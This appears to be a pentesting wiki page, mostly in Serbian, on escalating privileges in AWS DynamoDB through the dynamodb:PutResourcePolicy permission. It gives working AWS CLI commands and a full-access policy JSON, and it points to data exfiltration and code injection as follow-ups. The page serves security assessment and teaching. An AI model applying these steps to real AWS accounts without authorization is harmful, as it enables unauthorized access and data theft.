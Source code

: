 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Za više informacija o dynamodb pogledajte:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Od marta 2024. AWS nudi *politike zasnovane na resursima* za DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Dakle, ako imate `dynamodb:PutResourcePolicy` za tabelu, možete sebi ili bilo kojem drugom principalu dodeliti potpuni pristup toj tabeli.

Dodeljivanje `dynamodb:PutResourcePolicy` nasumičnom principalu često se dešava slučajno — na primer, ako administratori misle da dodeljivanje `dynamodb:Put*` dozvoljava samo da principal ubacuje stavke u bazu podataka — ili ako su taj permissionset dodelili pre marta 2024...

Idealno bi bilo da imate i `dynamodb:GetResourcePolicy`, tako da ne prekrijete druge potencijalno važne dozvole, već samo ubacite dodatne dozvole koje su vam potrebne:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ako ne možete da dohvatite trenutnu politiku, jednostavno koristite ovu koja daje potpuni pristup tabeli vašem principalu:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ako treba da ga prilagodite, ovde je lista svih mogućih DynamoDB akcija: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A ovde je lista svih akcija koje mogu biti dozvoljene putem resource based policy *I koje od njih mogu da se koriste cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sada, kada je policy dokument `policy.json` spreman, postavite resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sada biste trebali imati dozvole koje su vam bile potrebne.

### Post Exploitation

Koliko ja znam, **ne postoji drugi direktan način da se escalate privileges u AWS samo posedovanjem nekih AWS `dynamodb` dozvola**. Možete **čitati osetljive** informacije iz tabela (koje mogu sadržavati AWS credentials) i **pisati informacije u tabele** (što može pokrenuti druge ranjivosti, kao što su lambda code injections...) ali sve ove opcije su već razmotrene na **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Čitanje podataka zloupotrebom data Streams

{{#include ../../../../banners/hacktricks-training.md}}
